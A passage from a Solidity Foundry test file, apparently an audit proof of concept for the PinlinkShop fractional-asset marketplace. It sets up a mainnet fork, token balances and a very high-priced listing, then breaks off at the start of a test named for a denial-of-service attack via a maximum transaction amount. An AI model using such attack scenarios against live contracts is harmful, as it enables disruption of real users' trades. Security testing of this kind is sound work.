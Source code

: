 ```solidity
    function setUp() public {
        string memory MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        vm.createSelectFork(MAINNET_RPC_URL, 21947000);

        admin = makeAddr("admin");
        bob = makeAddr("bob");
        alice = makeAddr("alice");

        // Deploy contracts
        vm.startPrank(admin);
        oracle = new CentralizedOracle(address(PIN), 0.95 ether); // 1 PIN = 0.95 USD
        fractions = new FractionalAssets(
            "https://metadata.pinlink.dev/metadata/0xaaaa/"
        );
        fractions.mint(asset1, admin, 100); // Total supply of asset1 = 100
        pshop = new PinlinkShop(address(PIN), address(oracle), address(USDC));
        fractions.setApprovalForAll(address(pshop), true);
        vm.stopPrank();

        // Distribute PIN tokens
        deal(address(PIN), bob, 10_000e18); // 10,000 PIN
        deal(address(PIN), alice, 10_000_000e18); // 10,000,000 PIN

        // Approve PinlinkShop for PIN transfers
        vm.prank(bob);
        PIN.approve(address(pshop), type(uint256).max);
        vm.prank(alice);
        PIN.approve(address(pshop), type(uint256).max);

        // Enable asset and list initial supply
        vm.startPrank(admin);
        pshop.enableAsset(address(fractions), asset1, admin);
        initialListingId = pshop.list(
            address(fractions),
            asset1,
            100, // Entire supply
            10e18, // $10 per fraction
            block.timestamp + 7 days
        );
        vm.stopPrank();

        // Bob buys the entire supply
        uint256 pinAmount = pshop.getQuoteInTokens(initialListingId, 100); // 100 * $10 / 0.95 ≈ 1052.63 PIN
        vm.prank(bob);
        pshop.purchase(initialListingId, 100, pinAmount);

        // Bob lists at high price
        vm.prank(bob);
        highPriceListingId = pshop.list(
            address(fractions),
            asset1,
            50, // Half the supply
            1_200_000e18, // $1.2M per fraction
            block.timestamp + 7 days
        );
    }

    function test_DoSAttackViaMaxTxAmount() public {
        // Verify high price listing
        Listing memory listing = pshop.getListing(highPriceListingId);
        assertEq(listing.amount, 50, "Incorrect high price listing amount");
        assertEq(
```